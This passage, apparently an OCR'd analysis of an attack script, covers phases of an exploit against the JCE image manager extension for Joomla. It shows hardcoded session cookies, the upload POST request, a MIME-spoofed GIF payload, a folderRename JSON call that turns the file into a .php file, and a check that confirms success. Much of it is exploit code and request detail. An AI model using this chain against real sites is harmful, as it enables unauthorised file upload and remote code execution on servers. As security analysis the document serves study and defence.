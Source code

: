 **Upload Parameters:**
- **Boundary:** `---------------------------41184676334`
- **Upload Directory:** Root directory (`/`)
- **Overwrite Setting:** Disabled (`0`)
- **Action:** `upload`

### Phase 4: Authentication Bypass & Session Management

**Hardcoded Session Tokens:**
```php
Cookie: 6bc427c8a7981f4fe1f5ac65c1246b5f=9d09f693c63c1988a9f8a564e0da7743
```

**Authentication Method:**
- Pre-configured session identifiers
- Google Analytics tracking cookies for legitimacy
- JCE image manager directory cookies
- Proxy connection headers for evasion

### Phase 5: File Upload Execution

**HTTP Headers:**
```
POST /index.php?option=com_jce&task=plugin&plugin=imgmanager&method=form&cid=20
Host: [target]
User-Agent: BOT/0.1 (BOT for JCE)
Content-Type: multipart/form-data; boundary=---------------------------41184676334
```

**Upload Process:**
1. Construct multipart form data with GIF-spoofed payload
2. Send POST request to JCE image manager endpoint
3. Bypass file type restrictions through MIME spoofing
4. Upload file to `/images/stories/` directory

### Phase 6: Extension Bypass via JSON Manipulation

**Rename Attack:**
```php
$ren = "json={\"fn\":\"folderRename\",\"args\":[\"/".$filename."\",\"".$filephp."\"]}";
```

**JSON Exploitation:**
- **Function:** `folderRename`
- **Source:** `bruno[random].gif`
- **Target:** `bruno[random].php`
- **Method:** Direct file system manipulation via JCE API

### Phase 7: Payload Verification & Success Confirmation

**Verification Process:**
```php
if (preg_match('/GIF89aGbruno7/si', $exec)) {
    return true;
}
```
